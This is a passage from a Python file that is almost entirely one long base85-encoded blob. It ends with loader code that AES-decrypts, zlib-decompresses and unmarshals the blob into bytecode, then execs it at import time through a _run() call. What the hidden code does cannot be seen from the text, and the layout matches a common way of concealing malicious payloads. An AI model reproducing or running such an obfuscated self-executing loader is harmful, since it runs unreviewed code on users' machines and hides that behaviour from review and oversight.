MIY7LVCnb&|Ju*9w$!5s9aSywsRrz3v*UlDozE;de;&`Vsb+p_Wu90KE9tYqs3(Z~BH8}`;ec*FF>+bJNdBZCIt+Wc<U`b(?apAyS{I@HJQ6rwG3;5L+mKfD%w4Rw>K4>Fu@T^oPv7f;B<S!bffY2$;Mo-b!HWAR0o22pA0}=Lb6Y&w-3=>)A^_r)!B-ZEa)ec5n5O~Uav8o&fws6DkjVDWg^qk|``z}_ud;)pC_V;)IcbJ!EDHt8t8%<ao@-by}&lrb%4EDob@arpLc4@go9joxUV)}n3Hy#Ks9+ZXz;uHL$kGaz~$n;)ksFB6CaAr8Ii^g3lBMY~`SsJ!Go7|qMstOQu*YI9Wm3huhVnlH{h=*E0Kgi-!`%WJ)*q!sy9%??(0E`>?wY%^XF+;sH^)US$GDV5RRD3|C=GMRwrU6ku#o`$tp^bStaeXQc9BSr1{|D-)8-~y9KIDKhv4k-GWnCpU;mWq2ORU=nc*h>Wu8(WferyZR_nYI1$zD_K&hk@$tGD-IRB;_&&`o*wPcd-_$*fu-y-NfgaPB>|>W4PAMIzx-_g9g~I{En#%Hl3~8{IV@@lj%~tHtRcQ_lAcX#g~&6wNtBaezjz7;F*WhOpHt7ip4^cP`bd`jIe)Rrs`BTxEnHsW0i=+2&qO6~$pBy1d(58=?H~CMPCbSj+k?bkcL{!yv(I{Y2I|RmwR90<^E;vnA01{jB+tGfh+!v)Klw|C$^ff$H|u^Qc7tmef2Fy&GtXWGpay!A9Ci5~!=ocl(tr=kiZ#N?;U!{KgJ;zdK6^3jf0g&6Su56uI3keuRH#J$Fe0>@n6-Ue$Gx^ytF=bCnIK2eug>@I%E>wr6{-?HIP@NSP8z-#s6arw46T8zrnH6O#$O5>HMqSfO-t%@2Ra?L$N?5Frym`b-`Z{kLj5z33%qFR7Q&g}5ITv(wm?pLtHUxZC!6uOk0V#1efhkrcj~vX8Ey%SE#^%28|5FV+@yXoxb2<v?)mMQ|*D8@6yetKXdOO6V1|34C+8M`kOFAv`$CtY-wsj36cQLL(u9pozK_gl+60q@My(QzxXwRoPOE(%km`)JR3hgq!{p`eEof*50J^*TA!$eu2BJ5VA(Gcg@N&L3CV@xh4ws$755G{89D8Vm^q+5qsm?W<f%eFIs`<Jl!0iAiBcl&Q(V+>$<Glg%wixy{n~sqe(%L^_9lL%+J*o%(1`N%1rlUDSu#Cyt$^=%o#8q3E`s7dcItUe35>*vAd2f5#cKYNspY~Q9F-kvgSp9)u={i6mHkiez#9TJ22yDFfk?tUR0H86A3Ktp#x|l6$QbB=y>k$#9(4rD!9j)g@77R#XJHk8e90{<eAig$gN|F<6hJ2zgk)-O07QCnb6mPj_LGWO=Gqo4$Pcf7fjG-Qv@0hGGMr9UFrlhVq~A~X4VZ1Bq%z&j4q!i<BTK~y@I}o=ef7uSX(EqC4fJe)P2Xh3V%AU({BfP@IObE-NQw-pc7cY`~mt^CIuV3B`Mq4OFo!D7`DJp9p0q;l)b3`FDdM8rVIajrWw(B0(hVjuevL(&~;8||I`AQz#J9G90d&bZiiiq<hes~9u9g(tDn8{kKh@#82Aq&u%2JpO#*&yjhxrQ+Xeq#EKf^vo&220rG)o;&<NL&e;Gmz?qo?!y$Z@ZK{03#T)cgVDrNMQza*~j9MNP8C;*+!k!pqC_3izRbc9l)q{p~vAZqo^|B5AztkO-9(Q#7JMM>Oa5xyQbuMecd?1l00(9WtD{1_qyY3Vi)67_$niKM!kMe^r~0{?3wn=i_=lPx*aeT=?aU#i=8^N(QIt2Ewah&7gg34dTR*qHkF@O8}&qfYX%0;aSTJsNnJ_^oDCE6w_Yc6laKP#PjON8D<AB5jFC1Vpm%V4%W?dURNuf=wWH(PD60xf`9S_u1}-n;V5l7B^F9+B;Xqq9(dHY+_G36RsCKI-i)CZ+dpcM48B1q_F8XYnuCPmE!i4>CI87-{AZUHe&%s6kc4dOU4E&bYhnZS;0^q&A>sZzR<-Zo@uDrl#vEE0h<;CKg|_00sJR(Ca+jR(a7&-mmlm5g}f})s7?l1*L`l4XTsaXU{2?zPed`aB)38cIsgF#Q9%m$Y#3G!xO(oMqb8Ad=3F3abFV>%s|*>&g45I}S1IV#yHkg&gd3SUp!@|U>_VTFW+4<-aJ-bYzIVk6m@(DWn{y@vv2i`CPm^WUq!Z_P_@2qQ?K{81PzQ!$imK|x|G9_BTJ>u}&G#3m4zD>!Av*#SE(ZpE)r3lpjuq4+SglUr5-UrglQ?6Qsv74kXi!71U)P|o@rPY;{bGBQlQBr_Aq3d?^d=bqFAtjJ475Ww|KY;{iIjZyX_ZS8ZbG^`Sc?b9*pij_Z>++fTt$+{lD`8=9w#Hg=6y$}iT`;c|AFUqeac9O#)3JprXNn<RP_%KUHpZ36Xo!rHb{qomZWjX)2SR8{U3pH-luBIdiFCsE=Lc^ZomrEM#CxpJO4{p<!wW*MfvZhSyFNKlzRJa`%dM)n@@L7uyvs3Eg>ec3H_K@klMYV8{B*Qxz8niIajDXEj8@bnsZqMuR1A=8s7_4z5+TSFuH-gE#+#X!<&5d#x|(*=r&}14i{5O?_#UJj7+1}XAW2--k~ntv-4b+*gsi{18h~p{zuY3jq7M@tvqNsfEv{APM^3gWM-vRxa(G!GjYSQUv`qin3)8=b+f8WtRP2s8#JH4<8jq-Fp}39gFlp@bgwRBaD`_aRnqaT5+fKDp2=B|S*E_J=gd{O`$!1G$GT4tqX1LkF1PDl*h+g??Y+o`Jx^w`08D-T?C8#k4=hDQzRVKeGpZeoEFC-pZ&phmH3Kg-;!o5=imKG3i`xlsnOXKLRkty?)I2#KAU>aA-tuBEbyM_%DJTQLbmMZ3n%!gOG)+rqqmAx7CL|MI`EwQ0@X&ZfO0^aYfkb&eq~?TH!RemC?TD<V$pytG*J(?;?!>PsausqL|4^<k=n|^!_o>yK-AzHSc?!S^uA;)9WlL1uSElO%^{#`QvDOf3;0BX4!!k-ENED<0gM<FMpEfUmU7CE>HlT3k{M@ftyc?cY9p+aDop>Y;hLBH-M7k4!<L6;4sUL{&T`0{y7As_9ZLxHl@D<zqPh<$^f5)^Dhxs;)hk1DywmY0@$Mnw%(KwI5d$5<c>WM(OiOF=aoNQv()BZyDVG3IOJr#!1C~=K%srhQ9Z$fc4X*km{9WQgR3Mpt)bL>Qiu1=Q`H{FB{m3D*H_-aoScISp3oEf?omv98gdug^)#t)1JaGQHrzyMeltDN#%&?96&OU6LvnV>4<YnaQK>5!5~lF$(3mmxHKEF@vR4_&TRzbYe`*Yo!S3d%}dBUly?vIpzzP+LI73CrLXRoSf7f1AW$ZbSjZ!}An}Y2VI5n!=9lQ)hnw-^569!}yc#Gao3ehFHu4%)FTYi7Z--!pvtQ6nFs1QEFmnP8j}e@27~`!Viy8nj)k!bX(xT=0e^vG+n&|%Q1V!+9D$a_4s@9NgyNkJ$mJY--E4OF$P5$Egd3$Xa;|<;aj6k<IM4<j)6i?EG=+@&1(yc$Ha)^l1_m*)9Ex$f;<*vWv&mk+E*XG?IU?LA1-y6;S^Qgtawtm2@FIEXM?v)^r8JSK{rXccLC(vFjS$30GZv#JD(f;-4Ha<bH-fNy!%1SaIQ~ko&?II`Wt9e4O+-jc@c4}h-OJ-F+5TQ8z|drCsHIon#O+3^yL-zH1RyHO!Ri7LOzS|S@0=~v7p~Kkl0kgy(_0JYAM}*I>l8CqHWMg&Hvu5y*s;t^5bz&LAB1s5!AvVoyz%QHf^q=se-&q%#@gnG@ya1`Fupc=8|qG<CdKKo5zD0p*%&5Fu$DN?UkCK66Cf$iKhTS2SnzJl(M#&oQ;las+%~j_4D-_`1NlBJXV>4d%_b97^w`RU-&do)s>%0kg+I3%Ttu3{VrR3iylW<DlTH4e}lHJj<-5^lrXJ1UOn*$nF5nL=<i&k$&NR#<99=qjG#X~ySINBvrU!|X7M!qnKV!h(Ni~#7oQApCQovw`({*p0Di$$z!R`6GRt0@o5|lL4*(mD6bFgm^;%Nk8qbh2kq6@^g}x92HkFy_m|-xHQ~@jT6UjwhYXAz59>Ct;9`<kk7UKqM`N_#nE4cXBrF4AKj^p50aVyj`Z2q{4OXtzbCb!EW6bS1RJ_vE^5{4*M%_pGn1msfngJ?cuTo6!Zn|K`P?|mkDu+7jgT+51`?<vlg1n#ux<)7*=eo5G~Lwey0V2;WKCTNy+z7F{J`O&a+90`eux?gBL+v^XvS4T|Al+<%`jHjLcH7Pf8%G(i#<6M%2<7v@dwk@c;&s#{5ioIMQWYUxVTlz$b^jv`vEP+*4K)y|4D#Dx8tx4Vr=<}$5X@8Ti>H+WuKYxbQBbf~dQxBT56uBJdao<l<99mhdw6(E4CC<=#_=U^zlGg#dQGH`X1_Em{c|thnGBxxW#2VsHKk8cQPIF&ac(UxKD}x&3n0)dg1c_?Vk@hKf?U1QyI`R<!7l@WUPOCN!oWY_jx}aQR>&cO6J0K*zWy9%jsnBXGX(17v=jUh3%x+Y|^6~L6qWXNyROh8uh^|9`I}xKiyuG<S^1HFZ>KCe@wQCEq87N%VDswkb1DOX=uK4<-;-jFcLn5Ix$UiX=Wjh}}3>T45Cs~QyNouGV9&8ufH*6Q(<O^Tq_B7hHehCcELh)YH85rR<&ZUs)O)DcoDf4!;hw3;5>P)Rcko;0OPti770i_smOlzf^tq&9`Hq5;Oa-(MA`2D~7S>LKcl+QPUn+b1)Qty?cj)w$O;K_gn7iY;hA9P1KX)#@ID$k<@LD$tY^V(dM!7RsmI|T|azug!Q8xkJHhlKo3tSyN6;S@DvJugD&4Qy^NbH(gt=yL@ja^)AZ68Qd;511%`E)~)@;pqDWS~o)s)v&4<n$nY;4MJ}nVe@qLx-V+dnEhq~EH{x;vi4U}e_~qiyQ!4U<aT8+xjZIVADvDs#?BQ#>I7ryxTp!!tyO|@heN-4pKAI4`u#p?P=P75`yrTSuzjwLibt)1#pkp7A+78b)Op}3g~%dbAd$UH$!SiQ98Lx<3RlyFzmIAWg<WA_hc?G#i;4~@EhC({%OL^7(a?8HcTqa;cK1>@0Qhnk-B{bmuaJTwGi{&QdvL56evjPcw{eA}k@`D?6>xP(ueIaBILu<1!SRrY&z;cW*aio)PgY=bPe#NmI;<_y#LGr`W3GX-R1)h=WbKXz{L8(raRHu6+(Uu-^A9qQkw%@bJL^JErM_&Lq(^rxf|bfhrv=09GUU17WF_TLN&W;u@WSyb_jMi&>%4(5UGr763Q>-8rz}d=^aYmh!zO_zLm!r7Q3s2h6glL2^zCALN2!mjF_}~|P!yyIx7dP=q~P$tLC*F8?}}hYYL#g)Qu#k&U0;<NLz+bxFh%XYCcdQyEwWr~qLI%2Z=1WLX%$-5gjtB}X3oRlf>OXeK4#xY^BaDi^Q`1#{6(=3M#fq8Y5b<%UCZw#tQe@Scv^zvyMcmA{lD>%-3Dw0LL6cf++0Z?+=_}gRduZyiX}R1?(qZ;MD2ot+J5kQWswX-8R$XUED7q!<j1s8_HdJ<y_#gjv1g3?L2l;h{N7}#Hjan(r?qdXt)j8H067taFZDotaXj}VSJ&jl((Z!5cwZxJ<`YJL7@(Gun)CPxwSDcBgN`6GJ*x<^<&sE%i9%Vj2_L2!Haj-HxurmzdK$K~DA&|SdBf1*>?A~sdjjYID?KFWVfPR_ekY7foG~S>3CU*a;2FJnOcY?WH5Dl`uT-mo>P`3MFs)_Hi){+wvwwFh%5?}Xs+aEikCW5sdoJhXwvf()PmK*JUA>i9St01;k!$#B#1EavlH22;B)GiPv)!{5SUb@f+C5{s0C-Klhw=Y1sfGoz(fKElE9PGX<Zg*IpV1U)VkhM>wF&qUOyEFT+rE1Y^2rxKdQ+XPS9sg$!BmV5RyPe>h|w(-rBY!~)$(@UcfQY~)vUS&M{|ZirlLwY4(;}dtLUm*2LRpU6}~hUWr$;Lub;9g;m!rG-?W^X<{meoj(_`N%1Zcp&OUfaz(mW7;fWn1V|%=IEzM2_SyK6t-%OS4&o8p*#_&Zz6`4TB{2+qkHDe(cblj@I5ks&xn+t%a(id7Nvogy{o(62Fti?KWfi>8c3XN<9WF|oGEmz)sNt+ag;0h3NiIw3b+LU{NV1(lvG33=Dok@g};{!*sx!1i0$!FUs$yFx{e$mF&;UT5}tc$-u$b0ff>nOhY1mu5)cwD(;RwJ)v_C;7m$G!hN8I<UPQ)`>4`bkplUc>|Tsi5zJS)t1lHU=Y}{+8tB@<<=15+DKvYZ99Y<jt$GPFn~@+%J;cC)Yd~B0C}L+(#&Bo(N_tFRPUQoKK8}@f*k&{<+s5Bvi0{zA6CZ$omvHNhz9GMfQt(C>tg#xu@DODJAww$%W}`D$;q23f~VmBN<!<gv$<AC(+Y&@_EdXGGtMOSGHGXZp5C4Y1vtvyxZ%rxiBLbbhLkkg?WNl-&2rmL<5!TNk{6uLKMt63b}uh|CTTbb&W6<Yk*=?DFLNCHZ$t+l?}=Qpm+L4(g}p{498whq9h1vs<dy$*<xe-{x_K_X6?@6H3Ap^LGF7?#eI7|&eL16wA&&sQ*CL|w!(hkk@N^;gwSS&QZT%_45ovUM|X@j>BGMAr3^-nXqPx(*N=CHACPwH%?k~$uiyu2em*uI_C+g`l~EYNanI>vycpMCoyaX-A>zruXCv<j3Fgi}zGY<Vc=k9UHVl43GBs7n+alN8NvgVFS{T~Ku~63)2yl$Xc>;az?t^~;)MJ0XAy0-AvnDT|6bNAYQN2mqt716>2cR)eVp7N-Kq!6(U4-Ir5YkRmKf$99Cx8NFn*g7Xqhh_G%Lm~^myJCfMexWeF5x|g{gBDP<81oRRwe*Vr2z$_xmk7OevFcJISK(;fRebr0@a&L`w|%!(I;nP=M<kbREK^Q{VnsqXJ;i`DCoxRp=e{mV1`}`@h(MzDc_4qqd#I$uw#E{qLo?Z*B!Etmp~q6iKXQ0!9^00_m25vx}=UEcgm}jQ67lTfdIf}&EOUQJVA2SHqY6*NX5R23czdE@FiZohh`20^1K7DdHD^}RnMG~Jcn2K7~)+JU`x1PCtz~w7{g?Lqdo2`;6pSnifAB>nmRW+KuWE9G@o7_8D!;>VyF+lJ65@dXD!x-4oY?0$lLX2LYZw?ilBH&cIjq>1D+tn@FyMmLly6G<479R?-H2y#ILs$tnRXNOMAhw&LLPkl~h@Gm)WjAPbaFC4K!N0Z)>Xwu!X3?(u&=y6_iEH4gM@EK5FW@C5mR##ZT_$c>Bi#_nsa$JS;hD?9QR#I3dCiqQedpu#2qs63)hj_r5?=bLKf>whZ6hc(ipkz*~4EBntT9n_tUfV57$RL`V|-vq=3sC^7X@-<ZP*RDW2ueHuZ`^^|G<npb8RgNx-+uxti|sYp=;mRrE`eq^8_f!i3Paoi*H1{Md4|2_Sw9z2$W6coj_>UTD)!a9wATA4$fWM4#9iLEJpjBTt;8FReowo~`K4YJDE7dA1Q-pD3Nm(wdw4D<Fe7QU+_z}nU~z-?B1(SQVZ#tTQGhIvQlE<HVk=`;oBoe5{J+84{MSDz1m;MMbgDqQ&|#IRfww1~SC7Mgv#WE(s+pEk#4hYGvXB*hy64A6bP1O$y<p}L;$|KXM0V2)&vXygR4hekJNggGf+K@rnS|MjK7K7fC&u}bg|s{bscvU}6w(;IA=EcYJMfpoUhd@`xKal+dsId$cfPF`Q12nTyoAex5O2{7BXPhWz;MKu781Ud!^^bPnLWL0yPiCy#OL%lXIOwnQY9kqK^EW(|{TSr#|z%03HZ~DOBH^AEA+@6Da91&j@Z(zPrDZ*|smU`xCHJfe(wW55gw?f}o^v|dl%dowKVZZ@!wnjoL&hIr@xA*jN_FPInJd^1|($K;O@0(@8C+d5F*c>35BvNlqN`-7WNsd}AdGpwr1@F-S?-N}DgL9>IM%-A@YGMR=<_U_!M%YiBNX>5CKT|Ij)?3X}ni7wlI`M2N5r%cJb*FIFP^tu~t6*AoWB_64m4JQ|qI=U6rP~*=Z#<*XQ^R`MRB%Tz13Ulp9m<ee%Eg8cl87BgC7@mU9i-NbJL11mq9nJL=#irmw}{&8O8WoM5?OBJ1(^l4%!m7#!7;}&Al<wT5R_uu6phBaxNzt&pR@&98pe$z8sff${K&3_Uf-V!-VSXr_4b#cuR%(3F>CK?50l5;1tV_2ZS@48+PoQwuwT^0=x8pO^|bu}l5NePHD<xWqHVtlQ}qDap_m=xG?qgmozo16NMnaA1^-Uid;29BODOb%6Nlc|>)R*yUpTeIH>|Oh;B62xHSW2DqmmkH$U4A|0PEcgZH6|@NLAXH?ET9f%Eth^Z)K#{oQRHQZzU$|!LgIfd?fx_m|?Jb8aVXzTGbay1cZg+$y^L6!mAL+zwi;Nho=nY6s1n!Ks(z(tJ$=iDv{ZqNQ}U#00`6N^<L|8+aDx~jrZ4f9$SF=j1beP$uj}mhHP@sR#u`lvQvxJY*-+^(298c1f<MZe79$ceL}YPL*`pHMUknIg>lDp(R89oyE>SLY;oG#3-gYBcV+yyksJ?24zx0oJRNtW_&LCVTtzrH+Y+m=H&Orf%y#&)nt7&&FQUG%W<CnH6-(=ER@8CaTrhFe%qK_1XJeu!$?cH<s^y1iq*txluDPgJ1($?Vyi+-qQiGs_E?``V08`#9c2^D2+u!xUUi;mR3z1SyDi4MycX3b~@C~Il$IKBkSLW=EUtm$(!s;+(P;^B37gOu>AV?ie#5Ys^<WcxqYzv2%tnzfppSFQ=>TuNKCA$QQ3@S5vqY+`ca51Hl70OelBAT(mhCfVb`uFGzU!EoGGBs2Soq!nLOWd|HW|hT*H0Vb6Q>Ou5`p)=HrL6IXLs%Mu9a_*Cu{70Yg|s=o1Q%Pqj_0Wpkj3sf)D!}I9LT^0t&Olqq&PL=ZT5&iTscd}<#(?a4%tt(@ESU$&j49bIn@?X?kgUbyJ`&0L>nNDmgKnq*<M-)6A}(h5g~FP!PC$5V}k|%b0kc_`OkA8qiHimNee?dPrIke=H`;=4Eo9?1dEu*Rs_usR^%jo9GjfVHDS|WN9(NdF;dl|;!@8Yje7E@6H%^*Ej9F9)27rBqCPZygrm*Q+t;ABNG|!M9EN0=u>WzS8l)_Ag^f}w^*SSiHr%X?9e3)rJ-=5AQ;A_&fS4e>GztOMc;`<NLude4H73j}d4g-nm-B4)`h9<)_(t_c9saX+dO~fPUk)$9(%i_IqT}E~5S9kB%DI{=r_?IPaY18zag>mP5-PK*X^AVA1Y$RW5Wmoa%C|qeEBSvR)`$s)`mJhSy7b;@MhsSi9+jI=juk$jO<E!qJdDuj$HrV7?#GD6C4^WgUOTR#WO@DzwTvuNt<5uqQ_k@1vlL}+><%h(>zfDTB5~L1rHx1WQb&Oaro#KkcNo-(09=_2LG<(ryu%l2oBjl6n`2TfE?e%})uGmEh|m6NdZE7c$O0)$Ip9-Y-p2M@7!sEq(AAjkE3T`8BXRcW!3r=>!S88kUxa&>D+3hWrh5ZU+r1*@B>#nhbT)Ix*Wu8A74+Nia#jFY)>~~Ew50`~(+qwU189L@>n!{=Z!R$at12ASj(!Y$dcX6B@Qf&kOd8NaO6vlEuc=0uzUFA;QE7)pKHq&Bj^!W}g@B+g%xu0MkhR9G4zIw5!jztjWcBSp6`{#kLN4%)$$V{EZx}YaEIaZEvu7XzqXiX^#%=CQJG8wH)<!c!IPdU;yNNv)!Yj({5i4|(YASoxHM$Ap<kI;re*)4$=IqRFJb1ZK!`}aD%BD^z=ZX7Rt9@X@cx(>bEnC}N7s23jIKrS+pa&yUDL3)&wq`;H7{k&e5JcsG`tOEXDymRjEH2+i?|VEt1UCfcc0%e!d2MkZ9C&L26aTp5mw}dLXGch|A*TN(@V|>uHzz-T^XE3|&3!b=EmcnIiI$nIiPJ1}e?+Pdo3`As;)7RU>bb!YZz2Hl33v{$eINjC+X;@(4xs8ha^L&G)&zG63##!W_ElnjSx1<COQKL_OpmC{O_R297jo-&QVA<my_U(Sq1fTU4B?NTkJh4lbL;@{Y}EmDd8XaQ(+8g>hZhMT(7msq1e7ou15R@uS-0@kM}BC3p7H3#rmgPQNxC>D<5t4Zt?JjG%1K(~gUzm%;7xRl@_VbZcZY@eb&FryHy=-gr)9zGjR!Cum*p#cqkxm5&FLa?ljXMx`u^;5{^#D1g*g4rh2+F}G^Drx#?*V>-odn^am_YMN@P4L=>|{j1RBG5|HiBHRYlRD<6s>SBOf?nI)KPFjHI8zURa44o%{j6Q9y}3Fn+4$dU@?kW2{F*b+A@Mqh+HBiY1X^KDa!4%5NczVs9JjCu_kz8E$dAhhSv4%wSU^-D0)M!$)0J!X0CWuQlKMl6!IB*Qg#1$@uL|I+*x^4GNO;*T7d!Y(inML|DXmtx6=<8nF5!Zf~Wvbx{@M*cDskD4$vLm2}A<Tf7LXh^f#R=3`tJGuAj)-{wgf-r(djR9gglR~}Sp00F;spPD>&L)>vwc1`Vl^23#f0|OaGtU;H2QXJ4dEwug<re`b-Y98(sc#OI5z?&KWa8VUnTrN0?%-4h-oXyc5P+JX!HDPRfvVC#1_Vbmeq%x2GB9QibDmLERQh{aECdoZxuEG?YJa=ph(R5K}u0&QL)A_z}AVs21b`NL~Ie4e>Kit;AmcHAv;6B@F{H4s9SI<Z7!}ZSITuYU_vkz2hutVIn`A@~Cv0hP&;d9aZ)#Q=ujScbiE)%hSC>+bJ;-Sq`^KSl*U68Kcw>!JzISjau2M+gAdlr@N@2)EC#sy#w(&dQH$}dqHAwCc*nQU5e4{zswIW1U09@iE=9XijfjNA0<=2Ur{sIt|0NkSIABqk~b=~YnaNY1ti&z>>rspoXo#2^2W&wHM6hgLGV=|wf2Tf9TSOm1#zGS@rBwcof@d|JKl^g-ilY5A}{xW1rUJs3!j1b}#95Bp2(1sg9mh(~#X!OQrEywfS2KNB)xPugB1T2IDEV~=Vu$g3(e9am6@Eb(NOIxqY8%=3^2Rz`YUTI9lTDn<zJ`YHYazLpP0gcn+Lkl3lgH2M50GyUA#%`t-e2;B5L><x7&f3$qw6l9W8J3k~7;toG|%GAzI2IF{rtw?e%;pe3TmHU_B-M${4E1xsE$E`p3nVOo%687E;Q!bbt=c>Hdc?P@Hx@&xY1LNLpKigjQapp34?>wA{)uF#hhy4T7|NOyg0akJHI+cP8&uL+3q^M8^(3i%Inl=;RU0+ut_bl?zz1E?D&<;Ma6&;71?;1&U0~i#Y*@zf<<xrt^fV$26^+gLCtJozmImRm@6#lprjkdL-^2}Y#G0h8ugIfx9Vi0G3`BUUKZ2<kW`2&i#7%;HCZ~^IQ>XxeH^UV$lJ+`;JMS`4a?Scfrn6ok^C@!(8vFCr`Z)suPjKPr69VIo+*{H^tI0w3hVy9;RT;(L2=yk!W|3e{(CLN;&S*+FabM1Z^Y$NY~1h?ueJYm8IQCTx<j5Cy_9xq{-bL+b^AuU&}(2DqAu8^HWvv+isxNksU`N`qhXz)xcZyVKmnzEg)19qHtYWeE3u=X(QGwsEygpq^d31Fjr{2wj%E09^rxxBc?M53@aWhXFDNopwLdzuL>Rqx+M2Q`j^UrN}=9srf(w8RzYHf`3oU!AW)NvfCpNgMeK41sitB3Ry!t3PRSg($i*eC?Q~q|IEcW_rQL@jR?_Q`Pb`Qh}a#BeY7Tcm7=aqGr?-ypU$h47DSu`Xb1wVIDWmQYY^(E+WpC9ofSK>2ER>caTV?*WgVaE6^@E3J*S1-iZ3p#5*j6t_Zw5qSYu$?@2cXX??k~)Bks+c1sJmS4p~Uen;Ov43W!WWOIoW{Za*2{q3@Wk-o((SO<x;13q>T^;fMw{li0?;({>}_(Xx{s_vTHY}R!LVvCO3MPD>At3}6{Jw||wAv${W$}EokgC9&iZ<axxLKoYRHk<^{TTf)$bd$`+<BVJy$vvBJ0Ab8x7HDQrw`C=Mh(R5p5-hpPD8b3n3s3)(uC-)yAWmg|QiR}L9>0YnAPSK8D*iL2CL@3h6Mi(#_572tidsX;8m!E0!9$j0>X29V-BN8I8M?7?Oqq_kkAc%KcF8R(KPpxJzHW;;dC%Eg2Biqt>iAt=8d1&wzW~owK==;<z=Omc0iNJ8sf%YJ4Vn+IxKv;Nq$hW&(Ad!5;UVr!IVmM_D>m=-(zrI#i|-THk(}~Ee2ow84hyRu8TCwwHvCFDVvOcms?dBj7rJ-GuaD9NpVyM3gPJ2*6smEfOx<wURfv`GaC|fbPtFhwXR1Qfy~-JzQ;}%nG-Yy=IdfAk>FH$BenXNt`2MX;-#sV^<IGzMmOJ92Z9bFoT%`(YR<<wN9B2BS*(;M=_5)|UNQ_-pAU{f={>ZwgG|F17?>hLN^H#$Z81xXmHk9CBW{89!DR$)5KWz~hUNMf?X`9ymem^N4d|<y-SZp|yWV%Z?PpBDDpz&6%YqnZ3Es)-pPx5iux1!Bp%Z1$w6w=C^d>1dx<G<n|_1A0pK4A&@Q-o61(>z3%e<M1t$=}<E)V64YWO6RhW5NgmPA*CY*CoI|nMW3#rXg|;Icf_BgVAS!bww_C%tPPY2c$d_wnZ~Py8Gp*mpB~s8%`ejFWAWt^IM#&LLszoCvU>JoT)X!rNtDs@7tT=VRv(oo!@-Ae9*2=-~M2unpH}dw&DEV#pWyrBOR+g05kRPkWtWbt=;&S+Nctf#7Oav+rBGweu6{si<U98fO{5e`L?wWTCu(SR>+Lmub3kj$0^q;@QS55Mn_A8@F(awGlv5D*&GjVIj}9|6%hu5YJnYvOQQgxLVjm(a8K3LcyBL|hcex6ht>dfk%Q)RZI}ysXBMvbRxoaCHD&l#{5wsm;cDr;>2Ko={FQ$Kp!xGva#b7Bh9t9%06RIRZqaPaWG|um(h4+W0Hr*v5Y6LQA1p+#M6VN#Q6yc=Sfs%8SRsZx(|l7hLUgnS<Z1W~8UKN834wkT?XOs-HYf~A!rSUfceZs*<8};n@ir6kpH&z7ZN>kZo$a+@^%b+T;u3)8ayk<*^&A?BZFAk(1RK!6aceBZQ$HH}vNTR{>Td6uxd&Wou-%aDI@Rz-kMY61oh|WFS^Si$7mLo_0#-qJ_ukAZ74Y8-30L4SCE#xaJ=out)3ih*IXjHaa5@YWX!$|A1s6D_e7i!VhR807UpE18r_E1K2L!0dyL#+@E<SgEFD07%$UWj&_(b)y2eo8!Qs;*CYApG)WDFjXSk|-kU!<g-LJ5n_QNT}8VftZo7RWdivcOQ9rj+qcF2pFPa@j%;vw`|_7IE!a9pQKMLt087L(6JVTlKkBZ*I`Kwo3|JRWf)&fmpE0dq-`d=FF9}8lHD@lz3A?b;=6|Dl+ln(>1A27jFdWnL)Dx_nyze#Wj-@baBmvp%OyjPcaE3j~>0F4_=Ton_=Ny$pLLQNsXh`_L>WZ6~jZsgBN&Kif~lN?Kw7gwPV2NGGDuo!9Wqd2Ymc*&HZJsZmZu&)e>T$kJjuE>)B~r5aeC*ehFH4BLA5G-^Aamw;lZL^RX7Tw`6KbX#3OL1XI{<*0`Ns0>ii{N+<jmGBBg@97#qqJ;G-&2ftJ)pajPTre=PHr#!wyw}8JzfC%idB&OuYWJ8>Nkw&ac7)Hlq>L0eVs(1huR@#dQV6WQ8gk)g0GJN#KDZXpBWL(aW-XsZ(xDBR#5!ih@2ENC91hp{IM#3Y%jY!pI*uSmApgUdOSGNWl8jAC16~fPgkb_ZA9;z|7pmO~?nw(U0xqVOYbHQtk)3<Sr4i4Q|$g#7D+x+vzl5mG!+|G9woaU=B-8!kfA1zN}r5GvZRX8l9ZSef!mNU08Cfw-YZLV4~k?DiWiZkx&BjMt#i+H;DL7_zT;06*1UB4hpBQg>4+pmKB7VnD5fw0*7rAarX&A3b(i_aZiwl=LZ5X`Ew=`vJ^TT#~<JTA5KxF(e3kT9ai5i4#Le2Ma*uN2(DjX{p;y*dbG$AswqB@5!mw={ajN0PfDppqi$bT-IC<378SDuv;V&X6zvqp|KYG0`n}g#(!y3nd#qn|MLT{M~^RsuDDfdFa%Mg_FFB*Q9Q%T-va)#DO0t3bvUC7>eTtcuW0*WFpDU5G2)`TD`224EMG;E3e@-4%FI3H)kg0KfNs&3+*bd=H%#lvXopc&AL;RLq_~Rs>0gGS)_Gg8=bN3zwcPv`CPNP_YGpK2>Wk4s%vC0Z3{YKs?60?;>)=Sm#?`mIzwC^I}1B9mzd(;1NWe77~E3iaw_{)L-`bDVjk<c`4)pK=a#uK=x%Wag)ZlS*?ZVMQOSxG(M2d!Dd%G1XSw(<0kVeGvP89E3kyvhOixK7V#mpnvrJeKi!14ej33A;I;n3>V<>m<gAfBD4$|UN4nj69EQuhHH&?wK2q~y;i3SSP{zuVmX%IM1vVw?<Wg&2=%h#_;^VM|Ga|3R#qs*z^KYU$_h=hK1p1CS;NZg&n5KUY|5@}Z9C@y^QqPVF$J~Sk(crSntqV*BRVv5pAp-bzW7?r9C!!+xD^Z;!nv<P3ZN)Hlom+!EN^dQ1XeN8S2#HG@1_hVZ<+&VnqRj}Z@5ckvjw^Bd_>wCpS9GgE$)vj^bWxbpK1Hf^tw@+D@J=+)N+i<H%GPS!(UckXZ*w1WEB|(4B;rV@eqIEN@+<1c~vnGd^Sld*CMr|itOJZ5YkJec@=G)pN+(XChAqNPl<2IvM5O<Q93zU)ZZbTH$*I9~9Pha;)HtYC5tg$_0>P-1n#VzbDkiwB<H7&5FUHCW(tSLRamu(<G7*3N4ljwLk@^NZu%^jl^OWwS6-0QPk%PVtBGNpLzUz$5Kh&BQ_qhTwn@yezN-dq||7h+P1C=31xSm60vryu*7W(=O$9Bh+jkAMd&i*kk>*m<VJ_HuYca?ZC^O>f^uWFbm(?|)N!fNUms4(<xOdWLV;vRx(PfG8gH8^0Ry0?Wq(|0sPBl1pj^md)$-c!8_LSB*3sh9x#Q1}sNsK03fO5JP00sh0~F3v5oe1S4hxQ@xA%F>k9IMrH~2#18BFXX=QTrRuk37^5dvER+E%Cp2*Gya?>y`Z(Y3c~X30=;@>_@eX7`!_1HdgV3kWO^oe=<wOcLK<NORL+QD4'
    cipher = AES.new(_KEY, AES.MODE_CBC, _IV)
    encrypted_data = base64.b85decode(encrypted.encode("utf-8"))
    decrypted_data = unpad(cipher.decrypt(encrypted_data), 16)
    decompressed_data = zlib.decompress(decrypted_data)
    code = marshal.loads(decompressed_data)
    globals_ns = globals()
    exec(code, globals_ns, globals_ns)


_run()

